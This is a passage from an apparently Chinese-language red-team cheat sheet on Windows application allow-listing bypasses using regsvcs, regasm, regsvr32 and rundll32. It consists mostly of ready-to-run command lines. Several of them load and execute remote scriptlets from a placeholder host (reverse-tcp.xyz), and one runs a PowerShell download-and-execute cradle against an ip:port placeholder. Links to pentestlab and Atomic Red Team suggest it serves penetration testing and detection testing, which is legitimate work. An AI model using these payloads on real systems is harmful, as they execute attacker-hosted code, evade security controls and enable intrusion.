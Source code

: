 [*Regsvcs*.exe(.NET 服务安装工具)](http://www.baidu.com/link?url=LFHRhAw_0WiFLLLsGtUuU76QX8dVcoSTNemnWDG-M0aO1bzkPOxXN7R9hJf7H8Z4nU7Vs1szBPOVXixckoa7fK) 、 [*Regasm*.exe(程序集注册工具)](http://www.baidu.com/link?url=mXPdwra2bsMnRy5OfhVIkzJC9bLa7D_qoZFmIFG8oJZNX81nO7BWpgNNGDoks-MpfbmV2k2JIuwgfkejVnF2Sy6Q9DtnhdLoRszgvJhHefi)

```powershell
x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll

x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll
x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll
```

Links：

- https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/RegSvcsRegAsmBypass.cs
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/RegsvcsRegasm.md

#### Regsvr32

执行本地脚本

```powershell
regsvr32.exe /s /u /i:file.sct scrobj.dll
```

加载远程脚本执行

```powershell
regsvr32.exe /s /u /i:http://reverse-tcp.xyz/file.sct scrobj.dll
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

Links：

- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md

#### Rundll32

rundll32就很熟悉了，主要用于在内存中运行dll文件，它们会在应用程序中被使用

```powershell
rundll32 AllTheThings.dll,EntryPoint
rundll32 javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://reverse-tcp.xyz/payload.sct");window.close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Links：
